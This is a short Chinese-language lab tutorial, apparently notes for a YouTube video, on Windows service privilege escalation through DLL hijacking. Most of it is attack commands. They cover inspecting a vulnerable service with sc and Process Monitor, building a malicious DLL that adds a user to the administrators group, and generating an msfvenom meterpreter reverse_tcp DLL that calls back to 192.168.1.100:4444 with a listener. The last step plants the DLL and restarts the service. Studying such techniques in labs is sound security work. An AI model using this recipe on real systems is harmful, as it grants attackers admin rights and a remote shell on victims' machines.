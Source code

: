 ```yaml
---
title: windows服务提权&dll劫持
categories:
- windows
tags:
- windows
---
```

windows服务提权&dll劫持
===
参考资料：
- [dll劫持](https://www.cnblogs.com/bmjoker/p/11031238.html)
- [sc.exe windows 服务管理](https://blog.csdn.net/jiangqin115/article/details/46531099)
- [youtube视频](https://www.youtube.com/watch?v=9s8jYwx9FSA&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=3)

制作了一个youtube[视频](https://www.youtube.com/watch?v=wlq2FqkN0GA)，下面是用到的一些命令。

sc是一个管理主机服务的工具

查看一个服务的运行状态 ，sc query 服务名

查看一个服务的配置信息 ，sc qc 服务名

【windows】
```
whoami

C:\Program Files\DLL Hijack Service\dllhijackservice.exe

进程监视器
dllhijackservice.exe
过滤
NAME NOT FOUND
---
sc qc dllsvc
sc start dllsvc
```
【kali】
修改windows_dll.c 
`cmd.exe /k net localgroup administrators user /add`

编译
`x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f dll -o hijackme.dll`

`handler -H 192.168.1.100 -P 4444 -p windows/x64/meterpreter/reverse_tcp`

【windows】
将`hijackme.dll`复制到地址`C:\Temp`

运行命令`sc stop dllsvc & sc start dllsvc`

